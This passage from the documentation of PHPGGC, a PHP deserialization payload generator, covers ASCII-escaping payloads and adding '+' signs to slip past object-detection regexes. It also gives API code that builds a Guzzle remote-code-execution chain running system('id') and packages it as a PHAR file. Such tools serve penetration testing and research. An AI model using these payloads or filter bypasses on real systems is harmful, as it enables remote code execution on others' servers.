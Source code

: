 ### ASCII Strings

Uses the `S` serialization format instead of the standard `s`. This replaces every non-ASCII value to an hexadecimal representation:
`s:5:"A<null_byte>B<cr><lf>";̀` -> `S:5:"A\00B\09\0D";`
This can be useful when for some reason non-ascii characters are not allowed (NULL BYTE for instance). Since payloads generally contain them, this makes sure that the payload consists only of ASCII values.
*Note: this is experimental and it might not work in some cases.*

### Plus Numbers

Sometimes, PHP scripts verify that the given serialized payload does not contain objects by using a regex such as `/O:[0-9]+:`. This is easily bypassed using `O:+123:...` instead of `O:123:`. One can use `--plus-numbers <types>`, or `-n <types>`, to automatically add these `+` signs in front of symbols.
For instance, to obfuscate objects and strings, one can use: `--n Os`. Please note that since PHP 7.2, only i and d (float) types can have a +.


# API

Instead of using PHPGGC as a command line tool, you can program PHP scripts:

```php
<?php

# Include PHPGGC
include("phpggc/lib/PHPGGC.php");

# Include guzzle/rce1
$gc = new \GadgetChain\Guzzle\RCE1();

# Always process parameters unless you're doing something out of the ordinary
$parameters = $gc->process_parameters([
	'function' => 'system',
	'parameter' => 'id',
]);

# Generate the payload
$object = $gc->generate($parameters);

# Most (if not all) GC's do not use process_object and process_serialized, so
# for quick & dirty code you can omit those two 
$object = $gc->process_object($object);

# Serialize the payload
$serialized = serialize($object);
$serialized = $gc->process_serialized($serialized);

# Display it
print($serialized . "\n");

# Create a PHAR file from this payload
$phar = new \PHPGGC\Phar\Tar($serialized);
file_put_contents('output.phar.tar', $phar->generate());
```
